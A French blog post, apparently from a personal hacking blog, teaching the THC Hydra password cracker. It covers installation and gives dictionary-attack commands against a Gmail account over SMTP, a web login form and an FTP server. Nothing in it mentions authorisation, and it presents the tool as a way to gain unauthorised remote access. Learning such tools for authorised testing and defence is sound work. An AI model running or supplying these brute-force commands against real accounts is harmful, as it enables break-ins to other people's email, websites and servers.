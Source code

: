 ```yaml
---
title: Hydra, un outil de craquage de mot de passe
author: Davistar
layout: post
permalink: "/hacking/cracking_hydra_linux.html"
read_time: true
category: hacking
image: /assets/2018-10-25/image1hydra.jpeg
---
```


&nbsp;

## Qu'est-ce que Hydra ?
THC Hydra est un outil de piratage de mots de passe capable d’exécuter des attaques de dictionnaire très rapides contre plus de cinquante protocoles. 
C'est un outil de piratage de connexion réseau rapide et stable qui utilise des attaques par dictionnaire ou par force brute pour essayer diverses combinaisons de mots de passe et de connexion sur une page de connexion.

## Quelles sont les utilisations typiques de THC Hydra ?
Hydra est utilisé en tant que pirate de connexion parallélisé prenant en charge de nombreux protocoles d’attaque. Les nouveaux modules sont faciles à ajouter. Cet outil montre à quel point il est facile d’obtenir un accès non autorisé à distance.

## Installer Hydra

Hydra est très simple d'installation. Sous Parrot et Kali, Hydra est déjà pré-installé.

### Sur Linux

{% highlight bash %}
$ sudo apt update && apt upgrade -y && apt install hydra -y
# sudo apt install hydra-gtk si vous voulez hydra en GUI
{% endhighlight %}

## Comment Utiliser Hydra : 

Pour afficher l'aide de Hydra 

{% highlight bash %}
$ sudo hydra -h
{% endhighlight %}

### Cracker un compte smtp avec Hydra via un dictionnaire :
Explication en vidéo ici => [https://www.youtube.com/watch?v=3i2fx_kBVwA&t=0s](https://www.youtube.com/watch?v=3i2fx_kBVwA&t=0s)

Notre serveur smtp : smtp.gmail.com
Notre port smtp : 465 ou 587

{% highlight bash %}
$ sudo hydra -l target@gmail.com -P wordlist.txt -S 465 -v -V -t 1 smtp.gmail.com smtp
{% endhighlight %}

 > -l = précise le login
 > -P = précise la wordlist
 > -S = précise le port
 > -v = pour rendre l'attaque verbeuse
 > -t = le nombre de threads
 > smtp = le protocole de l'attaque

### Cracker un compte via une page login post form :

{% highlight bash %}
$ hydra <IP> https-post-form "/login/login.php:user=admin&password=^PASS^ :F=failed" -l admin -P wordlist.txt -t 1 -V
{% endhighlight %}

### Cracker un compte FTP via Hydra

{% highlight bash %}
$ hydra -l admin -P passlist.txt ftp://192.168.1.70
{% endhighlight %}